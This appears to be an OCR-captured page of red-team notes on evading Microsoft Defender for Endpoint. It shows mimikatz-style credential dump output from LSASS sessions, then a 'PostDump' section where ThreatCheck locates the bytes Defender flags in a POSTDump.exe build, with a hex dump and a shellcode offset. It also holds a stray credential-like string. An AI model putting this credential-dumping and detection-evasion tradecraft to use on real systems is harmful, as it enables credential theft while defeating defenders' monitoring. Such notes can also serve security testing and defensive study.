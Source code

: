 ```
        msv :
        tspkg :
        wdigest :
         * Username : TestMachine1$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 59178986 (00000000:0386ffea)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 23-08-2023 14:19:50
SID               : S-1-5-90-0-2
        msv :
        tspkg :
        wdigest :
         * Username : TestMachine1$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :

[......snip......]
```

<div style="page-break-after: always;"></div>

<a name="postdump"></a>
## PostDump

```
zbm:OenCdvE8
```

```
PS D:\Work\ADCS Challenges\Tools\ThreatCheck-master\ThreatCheck\ThreatCheck\bin\Release> .\ThreatCheck.exe -f D:\Work\BypassMDE\Tools\POSTDump-main\POSTDump\bin\x64\Release\POSTDump.exe -e defender
[+] Target file size: 81920 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x13F9B
00000000   75 72 6E 3A 73 63 68 65  6D 61 73 2D 6D 69 63 72   urn:schemas-micr
00000010   6F 73 6F 66 74 2D 63 6F  6D 3A 61 73 6D 2E 76 32   osoft-com:asm.v2
00000020   22 3E 0D 0A 20 20 20 20  3C 73 65 63 75 72 69 74   ">··    <securit
00000030   79 3E 0D 0A 20 20 20 20  20 20 3C 72 65 71 75 65   y>··      <reque
00000040   73 74 65 64 50 72 69 76  69 6C 65 67 65 73 20 78   stedPrivileges x
00000050   6D 6C 6E 73 3D 22 75 72  6E 3A 73 63 68 65 6D 61   mlns="urn:schema
00000060   73 2D 6D 69 63 72 6F 73  6F 66 74 2D 63 6F 6D 3A   s-microsoft-com:
00000070   61 73 6D 2E 76 33 22 3E  0D 0A 20 20 20 20 20 20   asm.v3">··
00000080   20 20 3C 72 65 71 75 65  73 74 65 64 45 78 65 63     <requestedExec
00000090   75 74 69 6F 6E 4C 65 76  65 6C 20 6C 65 76 65 6C   utionLevel level
000000A0   3D 22 61 73 49 6E 76 6F  6B 65 72 22 20 75 69 41   ="asInvoker" uiA
000000B0   63 63 65 73 73 3D 22 66  61 6C 73 65 22 2F 3E 0D   ccess="false"/>·
000000C0   0A 20 20 20 20 20 20 3C  2F 72 65 71 75 65 73 74   ·      </request
000000D0   65 64 50 72 69 76 69 6C  65 67 65 73 3E 0D 0A 20   edPrivileges>··
000000E0   20 20 20 3C 2F 73 65 63  75 72 69 74 79 3E 0D 0A      </security>··
000000F0   20 20 3C 2F 74 72 75 73  74 49 6E 66 6F 3E 0D 0A     </trustInfo>··
```


[+]: Shellcode located at c7160
